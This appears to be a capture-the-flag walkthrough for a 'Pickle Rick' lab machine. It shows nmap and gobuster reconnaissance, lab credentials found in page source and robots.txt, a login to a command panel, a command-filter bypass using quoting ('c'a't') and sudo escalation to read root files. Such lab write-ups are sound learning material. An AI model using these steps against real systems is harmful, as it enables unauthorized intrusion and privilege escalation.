

To find open ports:
run: nmap <ip>
result: SSH and HTTP are open

run: nmap -sC -sV -p <ip>

* Identify the web tech stack
`
whatweb http://10.81.164.236
`

* Directory & file discovery
`
gobuster dir -u http://10.81.164.236 -w /usr/share/wordlists/dirb/common.txt
`
[result](../../docs/pickle_morty/2.png)

- check the resluts one by one
`
curl http://10.81.178.126/robots.txt
`

`
curl http://10.81.164.236/index.html
`
[result](../../docs/pickle_morty/3.png)
Username: R1ckRul3s

`
curl http://10.81.164.236/robots.txt
`
Wubbalubbadubdub
[result](../../docs/pickle_morty/7.png)
_______________________________________

* SSH with the username
`
ssh R1chRul3s@10.81.164.236
`
[result](../../docs/pickle_morty/4.png)

* Login with the Username
`
http://10.81.178.126/login.php
`
[result](../../docs/pickle_morty/5.png)

`
cat Sup3rS3cretPickl3Ingred.txt #command blocked
head Sup3rS3cretPickl3Ingred.txt #command blocked
less Sup3rS3cretPickl3Ingred.txt # FIRST FLAG
`
`
ls /home/rick
less /home/rick/second ingredients
less /home/rick/second\ ingredients # SECOND FLAG
`
[result](../../docs/pickle_morty/6.png)

* searched every possible file

* run `sudo -l`
[result](../../docs/pickle_morty/8.png)

`
sudo ls /root
`

'
sudo sudo c'a't /root/3rd.txt # THIRD FLAG
'

